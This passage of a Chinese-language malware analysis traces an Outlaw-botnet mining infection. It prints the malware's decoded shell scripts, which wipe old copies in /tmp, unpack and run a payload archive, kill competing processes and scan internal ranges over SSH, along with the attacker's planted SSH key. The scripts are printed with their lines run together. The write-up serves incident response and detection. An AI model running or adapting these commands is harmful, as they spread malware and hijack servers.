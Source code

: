 C目录下二进制文件tsm32、tsm64为SSH（22端口）扫描和爆破程序，并可以通过执行远程命名来下载和执行恶意程序。

![image.png](../assets/2020-07-05-%E8%AE%B0%E4%B8%80%E6%AC%A1%E5%AF%B9%E6%8C%96%E7%9F%BF%E7%97%85%E6%AF%92%E7%9A%84%E6%BA%AF%E6%BA%90-%E5%AF%B9%E6%8A%97Outlaw%E5%83%B5%E5%B0%B8%E7%BD%91%E7%BB%9C%E6%94%BB%E5%87%BB%E7%A7%8D%E4%B8%8B%E7%9A%84%E6%8C%96%E7%9F%BF%E7%97%85%E6%AF%92/image-35851251dd4a4eaf9df46dec01f1783c.png)

爆破成功后执行base64编码的shell命令，主要功能为删除旧版本的恶意程序和目录，然后解压获取到的最新版本恶意程序并执行，内容如下：

命令1：

```
#!/bin/bashcd /tmp rm -rf .sshrm -rf .mountfsrm -rf .X13-unixrm -rf .X17-unixrm -rf .X19-unixrm -rf .X2*mkdir .X25-unixcd .X25-unixmv ar/tmp/dota3.tar.gz dota3.tar.gztar xf dota3.tar.gzsleep 3s && cd .rsync; cat /tmp/.X25-unix/.rsync/initall | bash 2>1&sleep 45s && pkill -9 run && pkill -9 go && pkill -9 tsmexit 0
```

命令2：

```
#!/bin/bashcd /tmp rm -rf .sshrm -rf .mountfsrm -rf .X13-unixrm -rf .X17-unixrm -rf .X19-unixrm -rf .X2*mkdir .X25-unixcd .X25-unixmv ar/tmp/dota3.tar.gz dota3.tar.gztar xf dota3.tar.gzsleep 3s && cd /tmp/.X25-unix/.rsync/cnohup /tmp/.X25-unix/.rsync/cm -t 150 -S 6 -s 6 -p 22 -P 0 -f 0 -k 1 -l 1 -i 0 /tmp/up.txt 192.168 >> /dev/null 2>1&sleep 8m && nohup /tmp/.X25-unix/.rsync/cm -t 150 -S 6 -s 6 -p 22 -P 0 -f 0 -k 1 -l 1 -i 0 /tmp/up.txt 172.16 >> /dev/null 2>1&sleep 20m && cd ..; /tmp/.X25-unix/.rsync/initall 2>1&exit 0
```



还会通过远程命令修改SSH公钥为：

```
AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw==
```
